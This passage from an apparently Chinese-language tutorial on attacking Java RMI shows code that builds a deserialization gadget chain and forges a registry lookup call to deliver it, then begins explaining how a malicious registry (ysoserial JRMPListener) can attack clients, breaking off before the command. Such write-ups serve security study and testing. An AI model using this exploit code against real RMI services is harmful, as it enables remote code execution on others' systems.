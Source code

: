 ```
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, invocationHandler));
        // ========================从这里不一样了======================
        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);
        //获取operations
        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);
        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
}


```

## 攻击客户端


### 注册中心攻击客户端


此方法可以攻击客户端和服务端


对于注册中心来说，我们还是从这几个方法触发：


* bind
* unbind
* rebind
* list
* lookup


### ysoserial cc1攻击


除了unbind和rebind都会返回数据给客户端，返回的数据是序列化形式，那么到了客户端就会进行反序列化，如果我们能控制注册中心的返回数据，那么就能实现对客户端的攻击，这里使用ysoserial的JRMPListener，命令如下
